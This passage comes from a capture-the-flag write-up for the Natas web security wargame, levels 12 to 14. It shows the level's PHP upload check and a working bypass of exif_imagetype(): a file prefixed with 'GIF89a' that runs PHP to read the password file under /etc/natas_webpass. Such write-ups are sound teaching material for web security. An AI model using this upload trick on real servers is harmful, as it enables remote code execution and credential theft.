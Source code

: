 After uploading and running we are presented with the password.

### Natas 13
- - - - - - -

Natas 13 is very similar to natas 12 however there is an additional check with exif_imagetype() on our file.

{% highlight bash %}

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
}
{% endhighlight %}

Reading the documentation for exif_imagetype we get the following.

{% highlight bash %}
exif_imagetype() reads the first bytes of an image and checks its signature.

When a correct signature is found, the appropriate constant value will be returned otherwise the return value is FALSE
{% endhighlight %}

Simply googling exif_imagetype() returns various resources regarding getting past it. Basically since all it checks is the first few bytes of the file for an image identifier you can supply one and then have your PHP code under it. So to do that we add "GIF89a" to the top of our file and it will confirm that the file is a gif. So we turn our PHP code into.

{% highlight php %}
GIF89a
<?php
$myfile = fopen("/etc/natas_webpass/natas14", "r") or die("Unable to open file!");
echo fread($myfile,filesize("/etc/natas_webpass/natas14"));
fclose($myfile);
?>
{% endhighlight %}
 
When uploaded and ran we get our password.

### Natas 14
- - - - - - -

We are given a username and password field. When data is entered we are given "access denied". So straight to the source we go.
